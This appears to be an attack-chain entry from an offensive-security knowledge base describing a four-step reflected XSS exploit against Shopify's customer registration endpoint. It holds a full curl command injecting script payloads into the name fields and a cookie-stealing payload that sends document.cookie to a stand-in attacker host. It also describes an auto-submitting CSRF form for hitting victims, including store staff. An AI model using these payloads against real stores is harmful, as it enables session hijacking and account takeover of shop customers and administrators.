

---
tags:
  - xss
  - reflected-xss
  - shopify
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - Cloud (Shopify)
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Enable-Shopify-Customer-Registration]]'
  - '[[procedures/Submit-Malicious-Registration-Payload]]'
  - '[[procedures/Verify-XSS-Execution-on-Error-Page]]'
  - '[[procedures/Craft-Victim-Exploitation-Form]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:55:38.230Z'
description: >-
  A multi-step attack chain exploiting a reflected XSS vulnerability in
  Shopify's customer registration form by injecting malicious payloads into name
  fields and triggering error responses to execute arbitrary JavaScript.
skill_level: intermediate
impact_level: high
id: 3c26028e-14fb-4125-8681-9457b212b949
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS Exploitation in Shopify Customer Registration Form

Multi-stage attack chain demonstrating a complete reflected XSS workflow in Shopify's customer registration endpoint.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or proxy tool like Burp Suite for form submission

### Target Environment

- Shopify-hosted store (*.myshopify.com)
- Customer registration enabled
- Access to the /account/register endpoint

### Initial Access Requirements

- No prior authentication needed
- Public access to the registration form
- Ability to craft and host malicious HTML for exploitation

## Detailed Attack Procedures

### Step 1: Enable Customer Registration
procedure: [[procedures/Enable-Shopify-Customer-Registration]]

**Objective**: Expose the vulnerable /account/register endpoint by enabling customer accounts in the Shopify admin panel.

**Instructions**: Log in to the Shopify admin dashboard and navigate to Settings > Customer accounts. Select "Accounts are optional" or "Accounts are created automatically" to enable registration. This step is typically for testing setup; in a real attack, assume it's already enabled on the target shop.

**Expected Output**: The /account/register page becomes accessible for new user sign-ups.

**Success Indicators**:
- Registration form loads without errors
- Endpoint responds to GET requests

### Step 2: Submit Malicious Registration Payload
procedure: [[procedures/Submit-Malicious-Registration-Payload]]

**Objective**: Inject HTML/JavaScript payloads into the first_name and last_name fields along with a short password to trigger the validation error.

**Instructions**: Use a tool like curl to POST the form data to /account/register. Include payloads such as `<script>alert('XSS')</script>` in name fields and a password shorter than the minimum length (e.g., "pass").

Execute [[commands/curl-shopify-registration-post]]:

```bash
curl -X POST 'https://example.myshopify.com/account/register' \
  -d 'forms_key=...' \
  -d 'contact[email]=test@example.com' \
  -d 'customer[first_name]=<script>alert("XSS")</script>' \
  -d 'customer[last_name]=<script>alert("XSS")</script>' \
  -d 'customer[password]=pass' \
  -d 'commit=Create account'
```

**Expected Output**: Server returns a 200 OK with an error page reflecting the unsanitized input.

**Success Indicators**:
- Error message contains injected HTML
- JavaScript executes if viewed in a browser

### Step 3: Verify XSS Execution on Error Page
procedure: [[procedures/Verify-XSS-Execution-on-Error-Page]]

**Objective**: Confirm that the reflected content executes arbitrary JavaScript in the victim's browser context.

**Instructions**: Submit the payload as in Step 2 using a browser. Observe the error page for password length validation, where names are echoed back unescaped. Replace alert() with a payload to steal cookies, e.g., `<script>document.location='http://attacker.com/?cookie='+document.cookie</script>`.

**Expected Output**: JavaScript runs, potentially exfiltrating data or displaying an alert.

**Success Indicators**:
- Alert pops up or network request to attacker server
- No sanitization of <script> tags in response HTML

### Step 4: Craft Victim Exploitation Form
procedure: [[procedures/Craft-Victim-Exploitation-Form]]

**Objective**: Create a malicious HTML page that auto-submits the payload via POST, bypassing user interaction and exploiting the lack of CSRF protection.

**Instructions**: Host an HTML file on an attacker-controlled server with a form that targets the victim's shop URL. Use JavaScript to submit on load. Example payload: A form with the malicious names and short password, set to POST to /account/register.

**Expected Output**: Victim visiting the page gets redirected to the error page, executing the XSS.

**Success Indicators**:
- Form submits automatically
- XSS triggers on the Shopify error response
- Potential access to admin if victim is staff

## Attack Chain Summary

### Key Achievements

1. Identified and triggered reflected XSS in customer registration
2. Demonstrated arbitrary JS execution for data theft or phishing
3. Exploited lack of CSRF to force victim submission
4. Highlighted risks to authenticated users, including admin access

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
